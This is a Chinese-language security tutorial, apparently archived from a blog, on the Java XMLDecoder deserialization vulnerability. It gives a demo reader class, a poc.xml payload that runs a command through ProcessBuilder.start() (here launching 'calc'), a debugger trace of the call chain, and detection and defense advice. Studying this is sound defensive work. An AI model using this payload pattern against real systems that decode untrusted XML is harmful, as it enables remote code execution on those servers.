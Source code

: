 ## 基本概念

XMLDecoder用于将XMLEncoder创建的xml文档内容反序列化为一个Java对象，其位于java.beans包下。

## 影响版本

XMLDecoder在JDK 1.4~JDK 11中都存在反序列化漏洞安全风险。

## Demo

```
import com.sun.beans.decoder.DocumentHandler;
import org.xml.sax.helpers.DefaultHandler;

import javax.xml.parsers.SAXParser;
import javax.xml.parsers.SAXParserFactory;
import java.io.BufferedInputStream;
import java.io.File;
import java.io.FileInputStream;
import java.beans.XMLDecoder;

public class test {

    public static void XMLDecode_Deserialize(String path) throws Exception {
        File file = new File(path);
        FileInputStream fis = new FileInputStream(file);
        BufferedInputStream bis = new BufferedInputStream(fis);
        XMLDecoder xd = new XMLDecoder(bis);
        xd.readObject();
        xd.close();
    }


    public static void main(String[] args){
        //XMLDecode Deserialize Test
        String path = "poc.xml";
        try {
            XMLDecode_Deserialize(path);

//            File f = new File(path);
//            SAXParserFactory sf = SAXParserFactory.newInstance();
//            SAXParser sp = sf.newSAXParser();
//
//            DefaultHandler dh = new DefaultHandler();
//            DocumentHandler dh = new DocumentHandler();
//            sp.parse(f, dh);

        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

Payload：

poc.xml，可以看到java标签的class属性指定XMLDecoder类，对象标签指定ProcessBuilder类、void标签指定方法为start，即可调用ProcessBuilder.start()来执行其中的命令。

```
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_131" class="java.beans.XMLDecoder">
	<object class="java.lang.ProcessBuilder">
		<array class="java.lang.String" length="1">
			<void index="0">
				<string>calc</string>
			</void>
		</array>
		<void method="start" />
	</object>
</java>
```

运行后，会弹出计算器：

![img](https://web.archive.org/web/20221208234234im_/http://www.mi1k7ea.com/2019/01/01/XMLDecoder%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/1.jpg)

## 调试分析

在IDEA下设置断点跟踪调试。

在readObject()处设置断点，可看到XMLDecoder对象xd的input属性包含了输入XML文档的路径：

![img](https://web.archive.org/web/20221208234234im_/http://www.mi1k7ea.com/2019/01/01/XMLDecoder%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/2.jpg)

继续往里调试，调用到XMLDecoder.parsingComplete()时，发现里面调用了

XMLDecoder.this.handler.parse()，其中this.handler即为DocumentHandler，换句话说，就是调用了DocumentHandler.parser()来解析输入的XML文档内容：

![img](https://web.archive.org/web/20221208234234im_/http://www.mi1k7ea.com/2019/01/01/XMLDecoder%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/3.jpg)

跟踪进去，可以看到DocumentHandler.parser()中调用了如下函数来解析XML内容：

```
SAXParserFactory.newInstance().newSAXParser().parse()
```

![img](https://web.archive.org/web/20221208234234im_/http://www.mi1k7ea.com/2019/01/01/XMLDecoder%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/4.jpg)

接着设置xmlReader的相关handler，如处理XML内容、实体、错误、文档类型定义、文件等句柄，最后调用xmlReader.parse()解析XML文件内容：

![img](https://web.archive.org/web/20221208234234im_/http://www.mi1k7ea.com/2019/01/01/XMLDecoder%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/5.jpg)

继续调试，在XML11Configuration.parse()中发现调用determineDocVersion()：

![img](https://web.archive.org/web/20221208234234im_/http://www.mi1k7ea.com/2019/01/01/XMLDecoder%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/6.jpg)

跟踪进去发现，determineDocVersion()主要获取XML实体扫描器然后扫描解析\<?xml version=…?>来获取XML文档的版本信息：

![img](https://web.archive.org/web/20221208234234im_/http://www.mi1k7ea.com/2019/01/01/XMLDecoder%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/7.jpg)

返回版本信息后，继续往下在XML11Configuration.parse()中调用startDocumentParsing()函数，主要是重置扫描器的版本配置并开始文件扫描准备，其中开始文件扫描准备是调用startEntity()函数（跟踪进去可以看到是通知扫描器开始实体扫描，其中文档实体的伪名称为“[xml]”、DTD的伪名称为“[dtd]”、参数实体名称以“%”开头；接着函数内部会调用startDocument()函数开始准备文件扫描）：

![img](https://web.archive.org/web/20221208234234im_/http://www.mi1k7ea.com/2019/01/01/XMLDecoder%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/8.jpg)

可以看到最后调用到的startDocument()函数会清空当前对象和句柄为文件扫描的开始做准备：

![img](https://web.archive.org/web/20221208234234im_/http://www.mi1k7ea.com/2019/01/01/XMLDecoder%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/9.jpg)

返回到XML11Configuration.parse()中继续往下调试，调用scanDocument()开始文件扫描：

![img](https://web.archive.org/web/20221208234234im_/http://www.mi1k7ea.com/2019/01/01/XMLDecoder%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/10.jpg)

进入scanDocument()，可以看到设置实体句柄后，主要是执行do while循环体，其中的包含START_DOCUMENT、START_ELEMENT、CHARACTERS、SPACE、ENTITY_REFERENCE、PROCESSING_INSTRUCTION、COMMENT、DTD、CDATA、NOTATION_DECLARATION、ENTITY_DECLARATION、NAMESPACE、ATTRIBUTE、END_ELEMENT等的扫描识别：

![img](https://web.archive.org/web/20221208234234im_/http://www.mi1k7ea.com/2019/01/01/XMLDecoder%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/11.jpg)

中间XML节点解析的过程不用过多分析，调试至END_ELEMENT时，可以看到其中提取出“calc”参数值：

![img](https://web.archive.org/web/20221208234234im_/http://www.mi1k7ea.com/2019/01/01/XMLDecoder%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/12.jpg)

跟踪进去后面的getValueObject()函数，可以看到变量var3和var4，分别为获取到ProcessBuilder类名和start方法名，在调用Expression()：

![img](https://web.archive.org/web/20221208234234im_/http://www.mi1k7ea.com/2019/01/01/XMLDecoder%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/13.jpg)

继续跟踪到里面，最后会调用MethodUtil.invoke()方法实现反射执行任意类方法：

![img](https://web.archive.org/web/20221208234234im_/http://www.mi1k7ea.com/2019/01/01/XMLDecoder%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/14.jpg)

再次F7直接执行了代码弹出计算器：

![img](https://web.archive.org/web/20221208234234im_/http://www.mi1k7ea.com/2019/01/01/XMLDecoder%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/15.jpg)

整体地看一下，整个调用过程大致如下：

```
XMLDecoder.readObject() -> XMLDecoder.parsingCompelete() -> DocumentHandler.parse() -> SAXParserFactory.newInstance().newSAXParser().parse() -> xmlReader.parse()
```

可以发现，XMLDecoder类解析XML是调用DocumentHandler类实现的，而DocumentHandler类是基于SAXParser类对XML的解析上的。

那么可以去分析一下，到底哪个类才是真正的漏洞类。测试一下，可以看出DocumentHandler类才是XMLDecoder反序列化漏洞的根源类：

![img](https://web.archive.org/web/20221208234234im_/http://www.mi1k7ea.com/2019/01/01/XMLDecoder%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/16.jpg)

## 检测方法

全局搜索XMLDecoder关键字，排查是否调用readObject()函数且参数是否可控。

## 防御方法

若可以尽量不使用XMLDecoder反序列化XML内容；若使用则尽量确保参数不可由外界输入，尽量以白名单的方式限定XML文档名且结合严格的过滤机制。
